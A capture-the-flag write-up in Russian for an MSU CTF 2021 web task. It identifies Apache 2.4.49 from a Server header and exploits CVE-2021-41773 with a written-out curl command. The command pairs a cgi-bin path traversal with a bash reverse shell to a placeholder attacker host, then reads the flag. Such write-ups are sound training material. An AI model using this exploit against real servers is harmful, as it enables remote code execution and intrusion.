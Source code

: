 # Middle-aged daemon

_http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080_

### Solution

Делаем GET запрос на ссылку из условия и в ответе ищем заголовок Server, по подсказке из названия таска. _Server: Apache/2.4.49_.

Ищем в интернете уязвимости веб-сервера Apache версии 2.4.49 и находим CVE-2021-41773:
_https://www.exploit-db.com/exploits/50383_
 
С помощью утилиты curl используем данную уязвимость, чтобы прокинуть ревёрс-шелл.

```bash
curl "http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d 'echo;bash -i >& /dev/tcp/atacker_ip/port 0>&1'
```

Находим флаг с помощью ```bash find -iname flag``` и читаем его.

`
Flag: MSKCTF{TO_BE_REDACTED}
`
